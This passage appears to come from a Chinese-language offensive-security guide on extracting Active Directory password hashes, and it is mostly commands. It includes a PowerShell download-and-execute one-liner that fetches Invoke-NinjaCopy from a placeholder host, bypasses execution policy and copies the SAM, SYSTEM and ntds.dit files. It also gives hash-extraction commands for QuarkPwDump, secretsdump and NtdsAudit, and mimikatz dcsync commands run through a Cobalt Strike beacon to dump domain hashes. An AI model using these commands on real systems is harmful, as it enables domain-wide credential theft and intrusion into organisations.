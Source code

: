 远程执行。

```plaintext
// 将脚本 HTTP 请求下载执行。
powershell.exe -exec bypass -nop -c "IEX((new-object net.webclient).downloadstring('http://<Host>/Invoke-NinjaCopy.ps1'))";Invoke-NinjaCopy -Path C:\Windows\System32\config\SAM -LocalDestination C:\SAM.hive;Invoke-NinjaCopy -Path C:\Windows\System32\config\SYSTEM -LocalDestination C\SYSTEM.hive;Invoke-NinjaCopy -Path C:\Windows\NTDS\ntds.dit -LocalDestination "C:\ntds.dit"
```

###### QuarkPwDump 解密数据库

[QuarkPwDump](https://github.com/quarkslab/quarkspwdump)

1.修复 ntds.dit

```plaintext
esentutl /p /o ntds.dit
```

2.获取哈希

输出哈希到文件 hashs.txt，不想落地文件可以删除 --output 选项，-ntds-file 是指定 ntds 数据库文件。

```plaintext
QuarksPwDump.exe --dump-hash-domain -outpu hashs.txt -ntds-file ntds.dit
```

###### Secretsdump 解密数据库

原始的 [impacket](https://github.com/SecureAuthCorp/impacket) 需要 Python 环境才能运行，安装库过于麻烦，所以使用 [impacket-examples-windows](https://github.com/maaaaz/impacket-examples-windows) 已经把对应脚本输出成 exe 可执行文件方便使用。

\-system 指定 SYSTEM 文件，-ntds 指定 ntds 数据库文件。

```plaintext
secretsdump.exe -system system.hive -ntds ntds.dit LOCAL
```

**[NtdsAudit](https://github.com/dionach/NtdsAudit)**

\-s 指定 SYSTEM 文件 -p 将结果输出，--users-cvs 输出到 csv 文件中。

```plaintext
NtdsAudit.exe "ntds.dit" -s "system.hive" -p pwdump.txt --users-cvs users.csv
```

###### [Mimikatz](https://github.com/gentilkiwi/mimikatz) 解密数据库

Mmikatz 的 dcsync 使用 DRS（Directory Replication Service）从 ntds.dit 提取哈希。

Cobalt Strike Beacon 命令从 ntds.dit 提取当前域控域名为 `<Domain>` 哈希，输出到 csv 文件。

```plaintext
beacon> mimikatz lsadump::dcsync /domain:<Domain> /all /csv
```

获取当前域 `<Domain>` 中用户名为 `<Username>` 的哈希。

```plaintext
beacon> mimikatz lsadump::dcsync /domain:<Domain> /user:<Username>
```
